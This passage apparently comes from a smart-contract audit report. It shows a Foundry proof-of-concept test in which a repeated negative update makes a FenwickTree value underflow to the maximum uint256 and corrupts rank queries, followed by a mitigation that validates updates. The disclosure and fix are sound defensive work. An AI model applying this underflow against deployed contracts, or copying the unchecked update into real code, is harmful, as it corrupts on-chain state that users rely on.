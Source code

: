 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "forge-std/Test.sol";
import "../src/library/FenwickTree.sol";

contract FenwickTreeUnderflowPoC is Test {
    using FenwickTree for FenwickTree.Tree;
    FenwickTree.Tree tree;
    
    function test_underflowExploit() public {
        tree.size = 1000;
        
        // Normal operation: add user at position 1
        tree.update(1, 1);
        assertEq(tree.data[1], 1);
        
        // First removal: position becomes 0
        tree.update(1, -1);
        assertEq(tree.data[1], 0);
        
        // EXPLOIT: Second removal on zero position
        tree.update(1, -1);
        
        // Proves underflow: 0 - 1 = -1 → uint256(-1) = 2^256-1
        assertEq(tree.data[1], type(uint256).max);
        
        // Impact: Corrupted rank calculation
        uint256 rank = tree.query(1);
        assertTrue(rank > 1000); // Should be 0, but corrupted
        
        console.log("Underflow successful: position 1 rank =", rank);
    }
}
```

### Mitigation

Add validation in `FenwickTree.sol` `update()` function:

```solidity
function update(Tree storage self, uint256 index, int256 delta) internal {
    require(index > 0, "Index must be > 0");
    while (index <= self.size) {
        int256 newValue = int256(self.data[index]) + delta;
        require(newValue >= 0, "Update would result in negative value");
        self.data[index] = uint256(newValue);
        index += lsb(index);
    }
}
```